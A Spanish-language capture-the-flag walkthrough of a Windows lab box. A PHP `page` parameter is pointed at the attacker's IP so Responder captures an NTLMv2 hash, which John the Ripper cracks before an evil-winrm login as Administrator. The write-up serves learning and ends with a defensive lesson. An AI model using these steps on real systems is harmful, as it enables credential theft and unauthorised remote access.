 --------
- Tags:  #WinRM #CustomApplications #protocols #XAMPP #SMB #Responder #php #Reconnaisance #passwordcracking #hashcapture #remotefileinclusion #remotecodeexecution
--------------

![](../img/0ed68a185d7ddd1e9f8592bd9a8b73ac.png)

![](../img/729f23bb63aab237c61ec0b3a0f13ed2.png)

### 🔍 Reconocimiento inicial

Se nos solicita acceder al servicio web asociado a la IP, pero al acceder a `http://unika.htb` obtenemos un error de "servidor no encontrado". Esto indica que la resolución DNS no está funcionando para ese nombre.


![](../img/1da0fd448c579252379d4ec84713e0d8.png)

📌 **Solución**: Agregar la IP y el nombre `unika.htb` en el archivo `/etc/hosts`:

![](../img/180a75ff9c164ea5b79c2f3d264dfd7f.png)

Al recargar la página en el navegador, se muestra la web correctamente.

![](../img/6b18bad4e7716145c0f1e302d46d3bcb.png)

### 🌐 Navegación web

Accediendo a `http://unika.htb`, vemos una web de diseño. Al inspeccionar los enlaces, detectamos que en la URL aparece el parámetro `?page=`. Por ejemplo:

```bash
http://unika.htb/index.php?page=german.html
```

📌 Esto indica que el lenguaje de backend es **PHP**, y el parámetro **`page`** podría ser vulnerable a LFI o RFI.

![](../img/262a78cee887d87e811eb58d07fc5c4b.png)

![](../img/f1d81e1566bcb44aba5ccbf56a41cc23.png)


Nos preguntan cual es la utilidad especial para ver las interfaces en el paquete "Responder":

![](../img/7c57b9e15595f041670eb0bf18a0bef2.png)

### 🧰 Responder y captura de hashes

Se nos pide usar **Responder** para capturar hashes de autenticación.  

Responder se ejecuta con la interfaz de red especificada:

```bash
responder -I (interfaz)
```

![](../img/6fae8f30742d2dcb63d3472f246c4693.png)

📌 Verificamos que están activos servicios como SMB, HTTP, DNS, FTP, entre otros.

### 🧩 LFI + RFI para capturar el hash NTLM

Modificamos la URL del parámetro `page` para que acceda a un recurso remoto en nuestra máquina (con Responder activo):

```bash
http://unika.htb/index.php?page=//tu_IP/somefile
```

![](../img/bd0c88fd3625135aeeb6a19e5f438611.png)

Esto fuerza al servidor a intentar autenticarse, permitiendo que **Responder capture el hash NTLMv2** del usuario `Administrator`.


En donde también nos preguntan qué significa **NTLM**:
Se trata del sistema de autenticación utilizado por Windows. 

![](../img/6733c3eec5e6e7359638c34f909923aa.png)

Llegando al final de la máquina, nos preguntan sobre el programa de crackear contraseñas "John the Ripper"

![](../img/cca1768554397881e0da856dc520f130.png)

Usamos John para probar millones de contraseñas contra el hash capturado desde Responder, y así descubrir la contraseña real.

Bien. Con responder:

![](../img/703034a53fd63c732a2d8c690b7c1a23.png)

![](../img/6e95c959e63fb4fec94c3b352a1f804e.png)

En Responder IP. Cogeremos esa IP y la pondremos en el navegador /somefile tal que así:

![](../img/d2f0561183e5d8bd91d059bdc8cc8b35.png)

Y veremos que se nos ha creado un hash en el Responder:

![](../img/9afc88c601b0bb41e977486e44aceb57.png)

Este codigo / hash (desde Administrator, absolutamente todo) , lo copiaremos, y creamos un documento "hash.txt"

![](../img/5aa8766b184358a8e974cadf233ef7ff.png)

Esta contraseña es la que nos devuelve John tras crackear el hash con el siguiente comando:

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](../img/e19df0765f8239dcf5f6b690f838b6e8.png)

Resultado:

![](../img/604c9a959985335be6f746e2f1afe280.png)


## 🖥️ Conexión remota con Evil-WinRM

Una vez tenemos la contraseña, nos conectamos con `evil-winrm`:

```bash
sudo evil-winrm -u Administrator -p badminton -i 10.129.95.234
```

![](../img/b99a73e28d9263bb4e41a489b662cf96.png)

Accedemos a una shell remota del sistema Windows objetivo.

*Añadimos el perfil / usuario "-u" con la contraseña "-p" y la "-i" IP

![](../img/101187cbdf7651655306ce9a19fd34bf.png)

- `evil-winrm` utiliza por defecto el puerto **TCP 5985**, correspondiente a **WinRM sobre HTTP**.
    
- Si fuese conexión segura (**HTTPS**), usaría el puerto **5986**, pero no se indica ningún protocolo especial, así que asumimos el puerto **estándar (5985)**.

## 📁 Exploración del sistema y obtención de la flag

Una vez dentro, navegamos por los directorios hasta encontrar la flag del usuario `mike`.

![](../img/7c7ccdf54938a2857f382da28f857db1.png)

Y finalmente:

![](../img/ff5efba62bf6a24c3996cd3af3e2b2b2.png)

Hasta encontrar nuestra querida flag !! =D

## ✅ Conclusión final

- Se detecta un sitio web en `unika.htb` vulnerable a **Remote File Inclusion (RFI)** a través del parámetro `?page=`.
    
- Aprovechando esta vulnerabilidad, se fuerza al servidor a conectarse a un recurso remoto falso utilizando **Responder**, capturando un **hash NTLMv2** del usuario `Administrator`.
    
- El hash NTLMv2 se **crackea exitosamente con John The Ripper**, revelando la contraseña `badminton`.
    
- Con estas credenciales, se realiza una conexión remota vía **evil-winrm**, accediendo como **Administrator**.
    
- Finalmente, se navega por el sistema de archivos hasta localizar y leer el archivo `flag.txt`.
    

---

🧠 **Lección aprendida:**  
Este laboratorio demuestra cómo una vulnerabilidad web mal gestionada (como RFI) puede escalar rápidamente hasta comprometer por completo un sistema Windows. La combinación de errores de desarrollo y servicios internos expuestos permite a un atacante capturar credenciales, descifrarlas y obtener acceso total. Es crucial validar los parámetros en las URLs y evitar incluir archivos remotos sin controles estrictos.



